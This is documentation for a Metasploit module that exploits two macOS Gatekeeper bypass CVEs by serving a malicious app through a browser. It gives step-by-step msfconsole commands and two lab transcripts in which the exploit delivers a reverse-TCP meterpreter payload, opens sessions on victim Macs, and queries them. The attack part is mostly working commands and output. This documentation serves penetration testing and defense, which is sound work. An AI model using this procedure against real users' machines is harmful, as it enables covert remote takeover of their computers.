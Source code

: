 ## Vulnerable Application

This module exploits two CVEs that bypass Gatekeeper.

For CVE-2021-30657 this module serves an OSX app (as a zip) that contains
no Info.plist, which bypasses gatekeeper in macOS < 11.3.

If the user visits the site on Safari, the zip file is automatically extracted,
and clicking on the downloaded file will automatically launch the payload.
If the user visits the site in another browser, the user must click once to unzip
the app, and click again in order to execute the payload.

For CVE-2022-22616, this module serves a gzip-compressed zip file with its file header pointing
to the `Contents` directory which contains an OSX app. If the user downloads the file via Safari,
Safari will automatically decompress the file, removing its `com.apple.quarantine` attribute.
Because of this, the file will not require quarantining, bypassing Gatekeeper on
MacOS versions below 12.3.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/osx/browser/osx_gatekeeper_bypass`
3. `set CVE <cve_num>`
4. `set LHOST <tab>`
5. `set SRVHOST <tab>`
6. `exploit`
7. Visit the URL on a vulnerable version of macOS

## Options

### APP_NAME

Name of the app to be served.

### CVE

The vulnerability to use in the exploit. The default value is the most recent cve (CVE-2022-22616).

## Scenarios

### macOS Catalina 10.15.6

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set srvhost 192.168.37.1
srvhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > options

Module options (exploit/osx/browser/osx_gatekeeper_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   APP_NAME  app              no        The application name (Default: app)
   SRVHOST   192.168.37.1     yes       The local host or network interface to listen on. This must be an a
                                        ddress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)


Payload options (osx/x64/meterpreter/reverse_tcp):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   LHOST                  192.168.37.1     yes       The listen address (an interface may be specified)
   LPORT                  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   macOS x64 (Native Payload)


msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.37.1:4444
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.37.1:8080/q670M8fEMu
[*] Server started.
[*] 192.168.37.132   osx_gatekeeper_bypass - Request /q670M8fEMu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
[+] 192.168.37.132   osx_gatekeeper_bypass - macOS version 10.15.6 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810096 bytes) to 192.168.37.132
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.132:49380) at 2021-04-29 15:21:38 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions

Active sessions
===============

  Id  Name  Type                 Information                           Connection
  --  ----  ----                 -----------                           ----------
  1         meterpreter x64/osx  space @ spaces-Mac.local (uid=501, g  192.168.37.1:4444 -> 192.168.37.132:
                                 id=20, euid=501, egid=20) @ spaces-M  49380 (192.168.37.132)
                                 ac.local

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: space @ spaces-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           : macOS Catalina (macOS 10.15.6)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```

### macOS Big Sur 11.5.2

```
msf6 > use exploit/osx/browser/osx_gatekeeper_bypass
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.140.1:4444
msf6 exploit(osx/browser/osx_gatekeeper_bypass) > [*] Using URL: http://192.168.140.1:8080/pUyNR5yWEqCu
[*] Server started.
msf6 exploit(osx/browser/osx_gatekeeper_bypass) >
[*] 192.168.140.137  osx_gatekeeper_bypass - Request /pUyNR5yWEqCu from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.2 Safari/605.1.15
[+] 192.168.140.137  osx_gatekeeper_bypass - Safari version 14.1.2 is vulnerable
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (810576 bytes) to 192.168.140.137
[*] Meterpreter session 2 opened (192.168.140.1:4444 -> 192.168.140.137:49355 ) at 2022-04-05 10:10:01 -0500

msf6 exploit(osx/browser/osx_gatekeeper_bypass) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 11.5.2)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter >
```
